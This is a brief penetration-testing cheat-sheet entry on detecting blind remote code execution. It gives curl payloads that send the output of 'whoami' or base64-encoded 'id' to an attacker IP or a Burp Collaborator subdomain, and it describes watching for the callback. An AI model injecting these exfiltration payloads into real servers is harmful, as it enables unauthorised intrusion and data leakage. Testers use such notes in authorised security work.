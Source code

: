 # Curl - For Blind RCE or Code Injections

`curl http://attacker_IP/'whoami'`

or

`curl http://<your_subdomain>.burpcollaborator.net/'whoami'`

Monitor with WireShark on your IP or monitor Collaborator client to see if request was made by the server and if code execution was successful.

Can use base64 encoding to allow for spaces to be included in data sent by server:

`curl http://<your_subdomain>.burpcollaborator.net/'id|base64'`
